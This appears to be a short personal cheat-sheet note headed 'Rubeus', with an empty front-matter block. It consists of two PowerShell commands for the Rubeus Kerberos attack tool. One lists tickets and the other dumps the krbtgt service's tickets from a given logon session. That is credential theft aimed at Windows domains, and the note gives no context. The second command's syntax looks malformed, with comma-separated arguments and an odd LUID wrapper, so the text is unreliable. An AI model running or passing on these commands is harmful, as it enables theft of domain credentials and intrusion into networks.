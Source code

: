 ```yaml
---
category: Uncategorized
tags: []
---
```

Rubeus

~~~PowerShell
./rubeus.exe klist
~~~

~~~PowerShell
./rubeus.exe dump,/service:krbtgt,/luid:LUID(0x26b1ba),/nowrap
~~~

